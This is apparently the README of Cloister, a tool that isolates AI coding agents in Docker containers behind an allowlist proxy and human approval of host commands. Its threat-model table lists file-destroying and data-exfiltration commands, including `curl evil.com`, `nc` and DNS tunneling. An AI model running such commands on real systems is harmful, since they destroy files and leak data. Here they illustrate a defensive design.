


<p align="center">
  
</p>

<p align="center">
  <a href="https://goreportcard.com/report/github.com/xdg/cloister"></a>
  <a href="https://github.com/xdg/cloister/blob/main/LICENSE"></a>
</p>

**Secure sandboxing for AI coding agents** — Cloister isolates CLI-based AI coding tools in Docker containers with strict security controls, breaking the "[Lethal Trifecta](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/)" that makes AI agents dangerous.

## The Dilemma

| | |
|---|---|
| **Permission Fatigue** | Constant prompts disrupt your flow and stop agents from working unsupervised |
| **YOLO Is Risky** | Unrestricted permissions let over-eager agents corrupt your system or leak credentials |
| **Sandbox It** | Cloister gives you productivity without the risk—mistakes stay contained and git-recoverable |

## Quick Start

### Prerequisites

- Linux or macOS
- Docker (or compatible equivalent like OrbStack)
- A git repository to work in
- Claude Code credentials (OAuth token or API key)

### Install

```bash
curl -fsSL https://raw.githubusercontent.com/xdg/cloister/main/install.sh | sh
```

This installs to `~/.local/bin` and will prompt to add it to your PATH if needed. To install a specific version:

```bash
VERSION=v1.0.0 curl -fsSL https://raw.githubusercontent.com/xdg/cloister/main/install.sh | sh
```

<details>
<summary>Alternative: Build from source</summary>

```bash
# Requires Go 1.25+
go install github.com/xdg/cloister/cmd/cloister@latest

# Or clone and build
git clone https://github.com/xdg/cloister.git
cd cloister
make build
```
</details>

### Configure Credentials

Run the setup wizard to configure Claude Code credentials:

```bash
cloister setup claude
```

The wizard offers two authentication methods:

1. **Long-lived OAuth token** (recommended) — For Claude Pro/Max subscribers; run `claude setup-token` first to generate a token
2. **API key** — For pay-per-use via Anthropic API; get your key from [console.anthropic.com](https://console.anthropic.com)

### Start a Sandboxed Session

```bash
cd ~/repos/my-project    # any git repository
cloister start           # guardian auto-starts on first use

# You're now in a sandboxed shell at /work
cloister:my-project:/work$ claude
```

Inside the cloister, `claude` runs with `--dangerously-skip-permissions` because the cloister itself is the security boundary.

### Key Commands

```bash
cloister start           # Start a cloister for the current repo
cloister list            # List running cloisters
cloister stop            # Stop the cloister for the current repo
cloister guardian status # Check guardian proxy status
cloister guardian stop   # Stop the guardian (warns if cloisters are running)

# Configuration management
cloister config show     # Show current global configuration
cloister config edit     # Edit global config in $EDITOR
cloister config init     # Create default config file

# Project management
cloister project list    # List registered projects
cloister project show    # Show project details and allowlist
cloister project edit    # Edit project-specific config
```

## Features

- **Agent agnostic** — Works with any CLI-based tool (currently only targeting Claude Code)
- **Allowlist proxy** — Network traffic restricted to approved domains (AI APIs, package registries, documentation)
- **Human-in-the-loop** — Host command execution requires explicit approval via web UI
- **Zero-trust containers** — Unprivileged, capability-dropped Docker containers on internal networks
- **Devcontainer compatible** — Leverages existing devcontainer.json while enforcing security (coming soon)

## How it Works

### The Problem

AI coding agents are helpful but overeager. Running in permissive mode, they can accidentally delete files outside your project, corrupt system configs, or expose credentials. The usual solution — permission prompts or simple sandboxing — faces a **completeness problem**: there are many ways to cause the same harm.

| Intent | Obvious | Alternatives |
|--------|---------|--------------|
| Delete a file | `rm foo.txt` | `> foo.txt`, `truncate -s0`, `mv foo.txt /dev/null` |
| Exfiltrate data | `curl evil.com` | `wget`, `nc`, Python urllib, DNS tunneling |

A policy must anticipate every mechanism; a misguided AI only needs to find one that wasn't forbidden. Clicking through prompts creates a false sense of security while interrupting your flow.

### The Approach

Some sandboxes use **action control**: enumerate what the agent can do, then allow or deny each operation. Cloister uses **scope control**: limit *where* the agent can have effects, then give it freedom within those boundaries.

| Scope | Boundary |
|-------|----------|
| **Filesystem** | Project directory only; sensitive paths blocked |
| **Network** | Allowlisted domains only (AI APIs, package registries, docs) |
| **Host** | Commands require human approval via web UI |

### Architecture



1. **Isolated containers** run on an internal Docker network with no direct internet access
2. **All HTTP(S) traffic** routes through cloister-guardian's allowlist proxy
3. **Host commands** (git push, docker build, etc.) require approval via web UI
4. **Project files** are bind-mounted; everything else is inaccessible

## Configuration

Cloister uses a layered configuration system:

1. **Global config** (`~/.config/cloister/config.yaml`) — Default allowlist, timeouts, logging
2. **Project config** (`~/.config/cloister/projects/<name>.yaml`) — Per-project allowlist additions

The default configuration includes allowlists for:
- AI provider APIs (Anthropic, OpenAI, Google)
- Package registries (npm, PyPI, Go modules, crates.io)
- Documentation sites (MDN, Stack Overflow, language docs)

To add domains for a specific project:
```bash
cloister project edit my-project
# Add domains under proxy.allow
```

See [specs/config-reference.md](specs/config-reference.md) for the full schema.

## Current Limitations

Cloister is in active development. Current limitations include:

- **Claude Code and Codex only** — Other AI agents not yet supported
- **No git worktree support** — Each worktree currently needs its own cloister
- **No devcontainer integration** — Custom devcontainer.json configs not yet honored

See [specs/implementation-phases.md](specs/implementation-phases.md) for the full roadmap.

## Contributing

Cloister is not accepting pull requests from external contributors and such pull requests will be automatically closed. It's ironic that a project devoted to AI coding agents is taking such a step, but here we are.  This is a side project and I don't want to make a promise for timely code review that I can't keep.

However, well-thought-out issues are welcome, particularly if they have a [Short, Self Contained, Correct, Example](https://sscce.org/) or an LLM prompt that would help diagnose or fix the problem.

## Security

If you discover a security vulnerability, please report it via [GitHub Security Advisories](https://github.com/xdg/cloister/security/advisories/new) rather than opening a public issue.

## License

Apache License 2.0 — See [LICENSE](LICENSE) for details.

## Copyright

Copyright 2026 David A. Golden

## Acknowledgments

- Simon Willison for articulating the [Lethal Trifecta](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/) threat model
